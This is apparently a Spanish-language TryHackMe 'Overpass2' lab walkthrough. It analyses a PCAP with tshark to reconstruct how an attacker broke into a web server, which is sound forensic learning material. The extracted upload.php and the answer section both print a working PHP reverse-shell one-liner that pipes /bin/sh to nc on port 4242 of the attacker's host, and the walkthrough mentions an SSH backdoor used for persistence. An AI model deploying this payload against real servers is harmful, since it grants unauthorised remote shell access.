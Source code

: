 # Overpass2 TryHackme Walkthrough

<p align="center">
  <img width="400" height="400" src="https://github.com/ceortiz33/tryhackme/blob/main/OverPass2/images/overpass2.png">
</p>


## Forensics - Analyze the PCAP
Para esta seccion se utiliza un archivo PCAP que nos entregan como evidencia de un ataque.

```
tshark -r overpass2.pcapng -T fields -e ip.dst | sort | uniq -c
```

```
   1463 140.82.118.4
      2 192.168.170.138
    262 192.168.170.145
   2113 192.168.170.159
      2 192.168.170.2
      1 192.168.170.254
      3 224.0.0.22
      4 224.0.0.251
     14 239.255.255.250
      1 91.189.91.157
```

```
# tshark -r overpass2.pcapng -Y "http"

4 0.000326676 192.168.170.145 → 192.168.170.159 HTTP 484 GET /development/ HTTP/1.1 
    6 0.000860947 192.168.170.159 → 192.168.170.145 HTTP 1078 HTTP/1.1 200 OK  (text/html)
   14 7.915992166 192.168.170.145 → 192.168.170.159 HTTP 1026 POST /development/upload.php HTTP/1.1  (application/x-php)
   16 7.916964256 192.168.170.159 → 192.168.170.145 HTTP 309 HTTP/1.1 200 OK  (text/html)
   18 11.984825193 192.168.170.145 → 192.168.170.159 HTTP 401 GET /development/uploads/ HTTP/1.1 
   19 11.985407246 192.168.170.159 → 192.168.170.145 HTTP 788 HTTP/1.1 200 OK  (text/html)
   27 28.574178738 192.168.170.145 → 192.168.170.159 HTTP 466 GET /development/uploads/payload.php HTTP/1.1 
 3562 229.072082387 192.168.170.159 → 192.168.170.145 HTTP 224 GET /cooctus.png HTTP/1.1 
 3585 229.073323788 192.168.170.145 → 192.168.170.159 HTTP 15280 [TCP Spurious Retransmission] HTTP/1.0 200 OK  (PNG)
 3611 235.053124579 192.168.170.159 → 192.168.170.145 HTTP 223 GET /index.html HTTP/1.1 
 3619 235.053836457 192.168.170.145 → 192.168.170.159 HTTP 881 HTTP/1.0 200 OK  (text/html)
 3876 284.434399160 192.168.170.145 → 192.168.170.159 HTTP 472 GET / HTTP/1.1 
 3878 284.434823231 192.168.170.159 → 192.168.170.145 HTTP 788 HTTP/1.1 200 OK  (text/html)
 3880 284.443819303 192.168.170.145 → 192.168.170.159 HTTP 347 GET /cooctus.png HTTP/1.1 
 3890 284.444614924 192.168.170.159 → 192.168.170.145 HTTP 14119 HTTP/1.1 200 OK  (PNG)
```

```
# tshark -r overpass2.pcapng --export-object http,/home/kali/Documents/tryhackme/overpass2/exported/
# cd exported
# ls

 %2f  'cooctus(1).png'   cooctus.png   development   index.html  'upload(1).php'   upload.php   uploads
```

```
# nano upload.php

----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--

```

```
for stream in `tshark -r overpass2.pcapng -Y "ip.addr eq 192.168.170.145 and tcp.port eq 4242" -T fields -e tcp.stream | sort -n -u`; do echo Stream: $stream; tshark -r overpass2.pcapng -q -z follow,tcp,ascii,$stream; done
```

### What was the URL of the page they used to upload a reverse shell?

```
/dev********/
```

### What payload did the attacker use to gain access?

```
&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

### What password did the attacker used to get access?

```
when******************
```

### How did the attacker establish persistence?

```
https://github.com/*********/ssh-backdoor
```

Using the fasttrack wordlist, how many of the system passwords were crackable?

```
*    A value between 2 and 5
```




